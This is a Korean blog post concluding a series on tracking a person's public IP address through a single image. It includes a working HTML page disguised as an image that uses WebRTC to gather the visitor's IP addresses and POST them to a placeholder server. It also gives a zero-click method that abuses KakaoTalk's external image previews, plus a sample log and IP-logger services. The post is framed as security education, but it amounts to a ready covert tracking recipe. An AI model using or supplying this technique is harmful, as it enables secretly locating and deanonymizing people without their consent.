 ```yaml
---
title: "사진 한 장으로 아이피 추적하기4 -결론과 총정리"
categories: [sec]

date: 2025-04-03
---
```

---

# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### ✅ 기본 절차
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. HTML 파일을 이미지처럼 위장

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading Image...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));
            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://yourserver.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Image Loading...">
</body>
</html>
```

- 상대방이 이 페이지를 열면, WebRTC가 실행되고 `https://yourserver.com/log_ip`로 IP 정보가 전송된다.
- VPN이 아니면 공용 IP 주소가 정확하게 잡힌다.

> ⚠️ 단점: 링크를 열어야 하며, 브라우저에서 실행돼야 한다. 모바일에선 제한될 수 있다.

---

## ✅ 3. 실전 성공 사례: 카카오톡 '사진 미리보기'로 IP 추적

우리는 WebRTC보다 현실적인 방법으로, **카카오톡의 외부 이미지 미리보기 기능**을 활용해 상대방의 IP 추적에 성공했다.

### 🎯 방식 요약
- 외부 서버에 이미지를 업로드
- 해당 이미지의 URL을 카카오톡으로 전송
- 카카오톡은 상대방 단말기에서 이미지를 불러오며 미리보기 생성
- 이 과정에서 서버에 요청이 찍히고, IP 수집 가능

### 💡 핵심 포인트
- **상대방이 클릭하지 않아도**, 단순히 대화창을 열기만 해도 IP가 수집됨
- 미리보기 이미지를 외부 서버에서 불러오기 때문에 발생하는 현상

---

## 📄 실제 서버 로그 예시

```log
[접속] 2025-04-02 13:11:58
IP: 121.162.88.214
User-Agent: Mozilla/5.0 (Linux; Android 12; SM-G991N)
Referrer: KakaoTalk
Device: Samsung Galaxy S21
```

이 정보를 통해, 우리는 다음과 같은 내용을 추출할 수 있었다:
- 접속 지역 (대략적)
- 통신사 (KT, SKT 등)
- 기기 모델명
- 브라우저 및 운영체제

---

## 🌍 4. IP 분석에 사용된 도구들

| 도구 | 기능 |
|------|------|
| [ipinfo.io](https://ipinfo.io) | IP 위치, ISP, 도시, 위도/경도 정보 제공 |
| [db-ip.com](https://db-ip.com) | 좀 더 정확한 위치 및 기업/학교 정보 |
| [ip-api.com](https://ip-api.com) | JSON 형태로 제공, API 연동 쉬움 |
| [whois.domaintools.com](https://whois.domaintools.com) | 통신사 및 네트워크 소유자 확인 |

### 📌 예시 결과
```
IP: 121.162.88.214
도시: 인천광역시
통신사: SK브로드밴드
ASN: AS9318
```

---

## ⚠️ 주의사항 및 윤리적 고려

- 본 기술은 **공격용이 아니라 실험, 연구, 보안 교육** 목적으로 작성되었습니다.
- 카카오톡이나 WebRTC의 취약점을 악용할 경우 **정보통신망법, 개인정보보호법 등에 따라 형사처벌** 받을 수 있습니다.
- 실제 적용 시 반드시 **법적 절차**와 **윤리적 판단**을 기반으로 해야 합니다.

---

## 🧾 결론

| 방식 | 클릭 필요 여부 | 성공률 | 비고 |
|------|----------------|---------|------|
| WebRTC 링크 유도 | ✅ 필요 | 중간 | 브라우저 열람 필요 |
| 카카오톡 이미지 미리보기 | ❌ 불필요 | 매우 높음 | 실제 실험에서 성공 |

📌 **우리의 결론은?**  
"카톡으로 온 아무 이미지도 쉽게 열지 말자."  
단 한 장의 짤방, 단 한 장의 사진이 당신의 위치를 말해줄 수 있다.

---

### 💡 관련 도구 및 링크

- [Grabify IP Logger](https://grabify.link)
- [iplogger.org](https://iplogger.org)
- [ipinfo.io](https://ipinfo.io)
- [db-ip.com](https://db-ip.com)

---

> 작성자 주: 이 글은 실제 실험을 바탕으로 작성되었으며, 보안 인식 제고와 기술적 학습을 목적으로 합니다.
